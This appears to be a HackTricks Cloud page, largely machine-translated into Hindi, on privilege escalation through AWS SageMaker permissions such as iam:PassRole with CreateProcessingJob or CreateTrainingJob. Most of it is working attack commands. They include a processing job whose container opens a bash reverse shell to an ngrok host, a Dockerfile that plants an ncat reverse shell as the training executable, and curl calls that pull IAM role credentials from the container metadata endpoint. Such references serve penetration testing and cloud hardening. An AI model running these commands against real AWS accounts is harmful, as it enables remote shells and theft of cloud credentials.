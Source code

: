 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

IAM भूमिका के साथ एक नोटबुक बनाना शुरू करें जो इसके साथ जुड़ी हुई है:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
उत्तर में `NotebookInstanceArn` फ़ील्ड होना चाहिए, जिसमें नए बनाए गए नोटबुक उदाहरण का ARN होगा। फिर हम `create-presigned-notebook-instance-url` API का उपयोग करके एक URL उत्पन्न कर सकते हैं जिसका उपयोग हम नोटबुक उदाहरण तक पहुँचने के लिए कर सकते हैं जब यह तैयार हो:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigate to the URL with the browser and click on \`Open JupyterLab\` in the top right, then scroll down to “Launcher” tab and under the “Other” section, click the “Terminal” button.

अब IAM भूमिका के मेटाडेटा क्रेडेंशियल्स तक पहुंचना संभव है।

**Potential Impact:** सागेमेकर सेवा भूमिका में प्रिवेस्क।

### `sagemaker:CreatePresignedNotebookInstanceUrl`

यदि Jupyter **नोटबुक पहले से चल रहे हैं** और आप उन्हें `sagemaker:ListNotebookInstances` (या किसी अन्य तरीके से) सूचीबद्ध कर सकते हैं। आप उनके लिए **एक URL उत्पन्न कर सकते हैं, उन तक पहुंच सकते हैं, और पिछले तकनीक में बताए गए अनुसार क्रेडेंशियल्स चुरा सकते हैं**।
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**संभावित प्रभाव:** सagemaker सेवा भूमिका में प्रिवेस्क।

### `sagemaker:CreateProcessingJob,iam:PassRole`

उन अनुमतियों के साथ एक हमलावर **sagemaker को एक processingjob निष्पादित** करने के लिए मजबूर कर सकता है जिसमें एक sagemaker भूमिका संलग्न है। हमलावर उस कंटेनर की परिभाषा निर्दिष्ट कर सकता है जो एक **AWS प्रबंधित ECS खाता उदाहरण** में चलाया जाएगा, और **संलग्न IAM भूमिका के क्रेडेंशियल्स चुरा सकता है**।
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**संभावित प्रभाव:** निर्दिष्ट सागेमेकर सेवा भूमिका के लिए प्रिवेस्क।

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

उन अनुमतियों के साथ एक हमलावर एक प्रशिक्षण नौकरी बनाने में सक्षम होगा, **इस पर एक मनमाना कंटेनर चलाते हुए** जिसमें एक **भूमिका संलग्न** होगी। इसलिए, हमलावर भूमिका के क्रेडेंशियल्स चुराने में सक्षम होगा।

{% hint style="warning" %}
यह परिदृश्य पिछले वाले की तुलना में शोषण करने के लिए अधिक कठिन है क्योंकि आपको एक डॉकर इमेज उत्पन्न करने की आवश्यकता है जो रेव शेल या क्रेड्स को सीधे हमलावर को भेजे (आप प्रशिक्षण नौकरी की कॉन्फ़िगरेशन में प्रारंभिक कमांड निर्दिष्ट नहीं कर सकते)।
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**संभावित प्रभाव:** निर्दिष्ट सागेमेकर सेवा भूमिका के लिए प्रिवेस्क।

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

उन अनुमतियों के साथ एक हमलावर (संभावित रूप से) एक **हाइपरपैरामीटर प्रशिक्षण कार्य** बनाने में सक्षम होगा, **इस पर एक मनमाना कंटेनर चलाते हुए** और इसके साथ एक **भूमिका संलग्न** करते हुए।\
_मैंने समय की कमी के कारण इसका लाभ नहीं उठाया, लेकिन यह पिछले शोषणों के समान लगता है, शोषण विवरण के साथ PR भेजने के लिए स्वतंत्र महसूस करें।_

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर हमें फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
